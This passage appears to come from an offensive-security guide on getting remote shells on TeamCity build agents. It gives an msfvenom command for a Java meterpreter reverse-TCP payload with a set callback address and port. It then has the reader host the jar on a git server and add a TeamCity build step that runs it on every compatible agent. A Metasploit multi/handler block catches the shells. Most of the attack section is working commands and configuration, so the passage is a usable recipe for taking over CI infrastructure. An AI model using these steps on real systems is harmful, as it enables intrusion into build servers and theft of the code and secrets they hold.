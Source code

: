 ![Shell on Build Agents](images/exploit_agents.png)

In simple words: we generate java meterpreter which is hosted on git server. Then we create build configuration which downloads our meterpreter from git server and run it on agents using command line.

1\. Generate meterpreter payload: `msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.1.11 LPORT=4444 -f jar > meterpreter.jar`

2\. Host `meterpreter.jar` on Git Server (for example using https://gogs.io/)

3\. If you have `System Administrator` privileges you can create new project (http://teamcity/admin/createObjectMenu.html?projectId=_Root&showMode=createProjectMenu). If you are `Project Developer` you need to edit project for which you have access.

![Create project](images/create_project.png)

4\. Add VCS root to you project using data from point 2

![Add VCS root](images/add_vcs_root.png)

5\. Create new build configuration

![Build configuration](images/create_build_configuration.png)

6\. Add build step to build configuration

![Create build step](images/create_build_step.png)

| Key | Value |
| --- | --- |
|Runner type|Command line|
|Execute step|Always, even if build stop command was issued|
|Run|Executable with parameters|
|Command executable|%teamcity.agent.jvm.java.home%/bin/java|
|Command parameters|-jar %system.teamcity.build.checkoutDir%/your_jar_file_from_git.jar|


7\. Prepare metasploit multi handler:

  ```
  use exploit/multi/handler
  set payload java/meterpreter/reverse_tcp
  set lport 4444
  set lhost 192.168.1.11
  exploit
  ```

8\. Run personal custom build on all compatible agents

![Run build](images/run_build.png)

#### Shell on Windows build agents
